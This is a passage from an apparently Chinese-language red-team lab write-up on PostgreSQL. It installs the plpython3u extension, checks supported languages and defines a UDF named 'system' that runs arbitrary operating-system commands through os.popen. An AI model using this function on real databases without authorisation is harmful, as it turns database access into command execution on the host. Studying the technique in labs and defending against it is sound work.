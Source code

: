 安装完毕后记得注册下扩展

```sql
create extension plpython3u;
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/26.png)

查看是否支持 plpython3u

```
select * from pg_language;
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/27.png)

创建一个 UDF 来执行我们要执行的命令

```sql
CREATE FUNCTION system (a text)
  RETURNS text
AS $$
  import os
  return os.popen(a).read()
$$ LANGUAGE plpython3u;
```
